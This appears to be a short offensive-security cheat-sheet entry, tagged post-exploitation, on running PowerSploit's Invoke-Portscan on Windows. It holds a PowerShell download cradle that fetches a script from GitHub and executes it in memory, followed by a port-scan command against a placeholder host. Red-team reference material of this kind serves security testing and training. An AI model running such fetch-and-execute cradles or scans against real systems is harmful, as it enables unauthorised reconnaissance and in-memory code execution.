 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - networking
  - network-protocols
  - port-scanners
  - offensive-tools
  - windows
---
```

# Scripts

## 01 - PowerSploit

### 1.1 - `Invoke-Portscan`

Download cradle.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1')
```

Perform portscan on hosts.

```
PS C:\> Invoke-Portscan -Hosts "<IP>" -TopPorts 50
```

---
## References

- [PowerSploit: Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1)